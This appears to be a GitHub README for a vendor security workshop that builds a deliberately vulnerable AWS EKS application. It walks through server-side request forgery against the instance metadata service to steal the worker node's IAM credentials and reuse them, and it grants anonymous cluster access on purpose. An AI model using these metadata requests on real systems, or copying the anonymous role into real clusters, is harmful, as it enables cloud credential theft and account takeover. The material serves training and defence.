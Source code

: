 <h1>Workshop FortiCNP - EKS Use Case </h1>

<h3>About</h3>
<p>
The main purpose of this project is to create an EKS cluster with a flaw application to explore some vulnerabilities and see how FortiCNP can support you during your cloud security operation. 
</p>
<p><strong> FortiCNP </strong> is a new Fortinet Cloud Native Protection product that is designed to help you address today’s cloud security needs by integrating with Cloud Native Security services as well as Fortinet Security Fabric products.</p>

<h3>Resources</h3>
<p>The following  resources will be deployed into your AWS account:</p>


<strong>VPC</strong>
* 1 x VPC
* 4 x Subnets. 2 Publics and 2 Privates
* 2 x Route Tables
* 1 x Nat Gateway
* 1 x IGW

<strong>EKS Cluster</strong>
* 1 EKS Cluster with a single WorkerNode

<strong> IAM </strong>
* IAM User for EKS Cluster management

<strong> Bastion EC2 Instance </strong>
* 1x EC2 Instance for EKS cluster api access/management


<h3>Use Case</h3>

<p>In this use case, we will discuss the risks of the AWS Instance Metadata service in AWS Elastic Kubernetes Service (EKS) clusters. We will demonstrate that deploying a flaw application with misconfiguration of AWS resources such as IAM policies can have disastrous consequences in the AWS account.</p>
<p><a href=https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html> Instance Metadata service </a> is an AWS API listening on a link-local IP address, 169.254.169.254. It is only accessible from EC2 instances and allows to retrieve many information about them.</p>

<h3>Deploy AWS Resources</h3>
<p>Follow the deployment process below to deploy EKS cluster in your AWS Account </p>
<ul>
<li>1. First you need to deploy the Cloudformation template filename Activate_AWSQS_extentation.yaml. This file will activate CloudFormation Extension <strong>AWSQS::EKS::Cluster</strong>. For more information about it you can find <a href="https://github.com/aws-quickstart/quickstart-amazon-eks-cluster-resource-provider"> here</a></li>
<li>2. Deploy the cloudformation template EKS.yaml</li>
It will take around 20 minutes to complete.
</ul>

<h3>Deploy Application</h3>
<p>Follow the  process below to deploy a flaw application on top of EKS</p>
<ul>
<li>1. Connect to an EC2 Bastion host created. If you have Key Pair you can use it to connect through SSH. If not, use Connect button available in the console</li>
<li>2. Open the folder forticnp-k8s/application through cd /forticnp-k8s/application.</li>
<li>3. Deploy the application with the following command.
kubectl create -f deployment_k8s_attack.yaml
</li>
<li>4. Deploy the service to expose the application with the following command.
kubectl create -f service_k8s_attack.yaml
</li>
<li>5. Deploy the cluster role available in the file anonymous.yaml. This will create a cluster role to allow anonymous cluster authentication.
kubectl create -f anonymous.yaml
</li>
</ul>

<h3>Accessing the Instance Metadata service from a compromised pod</h3>
<ul>
<li>1. Open the application URL. Get the URL with the command below.
<p> kubectl get svc service-k8s-attack</p>
<img src='/img/get_service.PNG'>
</li>
<li>2. "Launch http://EXTERNAL-IP_from previous_command:8080".
<img src='/img/home_page.PNG'>


</li>
<li>3. You can explore Instance Metadata. Copy and paste the command below in the form that will return informations about the EKS WorkerNode.
<p>http://169.254.169.254/latest/meta-data/</p>
</li>
<p>You can explore all Medata information</p>
<li>4. You can grab the access key and secret key with the commands below.
<p> Let's see which IAM role is applied to EC2 WorkerNode with the command below. </p>
<p>http://169.254.169.254/latest/meta-data/iam/security-credentials/</p>
<img src='/img/iam_role_workernode.PNG'>
<p>IAM role Name: FortiCNPEKS1-NodeInstanceRole-BDYEZXD9YLRB</p>
</li>
<li>5. Now you can retrieve security credentials.
<p>The following link retrieves security credentials for IAM name  FortiCNPEKS1-NodeInstanceRole-BDYEZXD9YLRB. Replace with IAM credential</p>
<p>http://169.254.169.254/latest/meta-data/iam/security-credentials/FortiCNPEKS1-NodeInstanceRole-BDYEZXD9YLRB</p>
</li>

<li>5. You will get the security credentials. As you can see in the image below.
<img src='/img/security_credentials.PNG'>
</li>

<li>6. You can use it to have aditional access. For instance, list S3 buckets available in your AWS account.
<p>First, you can verify that you are not allowed to list S3 buckets with the current credential</p>
<p>aws s3 ls</p>
<p>Replace your AWS credentials with the Access Key, Secret Key and Token from the previous step </p>
<p> export AWS_ACCESS_KEY_ID="New_Access_Key"</p>
<p> export AWS_SECRET_ACCESS_KEY="New_Secret_Key"</p>
<p> export AWS_SESSION_TOKEN="Token"</p>
</li>
<img src='/img/new_access_credentials.PNG'>

</ul>